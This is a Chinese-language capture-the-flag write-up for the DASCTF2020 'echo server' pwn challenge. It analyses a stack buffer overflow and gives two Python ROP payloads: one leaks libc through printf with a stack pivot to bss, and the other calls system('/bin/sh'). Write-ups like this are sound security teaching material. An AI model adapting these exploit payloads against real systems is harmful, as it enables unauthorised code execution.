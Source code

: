 
## echo server (100pt)
- 题目描述：
  
    > echo server
- 题目附件：[test](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/DASCTF2020/pwn/test/test)
- 考察点：rop
- 难度：简单

### 程序分析

获取名字的函数存在缓冲区溢出

```c
int sub_4006D2(){
  unsigned int len; // [rsp+Ch] [rbp-84h]
  char s; // [rsp+10h] [rbp-80h]

  len = 0;
  printf("how long is your name: ");
  __isoc99_scanf("%d", &len);
  printf("and what's you name? ", &len);
  memset(&s, 0, 0x80uLL);
  get_name(&s, len);
  return printf("hello %s", &s);
}
```

### 解题思路
#### ret2text

直接用函数中的`printf`泄漏libc：

```nasm
.text:00000000004006E7      lea     rdi, format     ; "how long is your name: "
.text:00000000004006EE      mov     eax, 0
.text:00000000004006F3      call    _printf
.text:00000000004006F8      lea     rax, [rbp+len]
.text:00000000004006FF      mov     rsi, rax
.text:0000000000400702      lea     rdi, aD         ; "%d"
.text:0000000000400709      mov     eax, 0
.text:000000000040070E      call    ___isoc99_scanf
.text:0000000000400713      lea     rdi, aAndWhatSYouNam ; "and what's you name? "
```

用`pop rdi;ret`的gadget把`rdi`设置成`got['printf']`，然后ret到`0x4006EE`这里调用`printf`去泄漏libc

> 调用`printf`的时候`eax`要清零，所以没直接用plt表

```python
# rop1
offset = 136-8
payload = '\0'*offset
payload += p64(elf.bss()+0x800)  # stack-pivot
payload += p64(prdi)+p64(elf.got['printf'])+p64(0x4006EE)+p64(0xdeadbeef)

sla('how long is your name: ','1000')
sla('and what\'s you name? ',payload)
ru('hello ')

printf = uu64(rc(14))
info_addr('printf',printf)
libcbase = printf - libc.sym['printf']
system = libcbase + libc.sym['system']
binsh = libcbase  + libc.search("/bin/sh").next()
```

> 这里要覆盖一下rbp，把栈迁移到bss段（因为函数结尾有leave-ret）

随后还会继续读数据到缓冲区，也就是说仍然存在缓冲区溢出，只不过这次的溢出在bss段

```python
# rop2
offset = 136-8
pl2 = '\0'*offset
pl2 += p64(elf.bss()+0x800)
pl2 += p64(ret)+p64(prdi)+p64(binsh)+p64(system)+p64(0xdeadbeef)

sl('1000')
sla('and what\'s you name? ',pl2)
```

> 用的是`bss+0x800`，因为`system`需要的栈空间比较大，设置小了的话会报错(会跑到只读的data段)

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/DASCTF2020/pwn/test) 

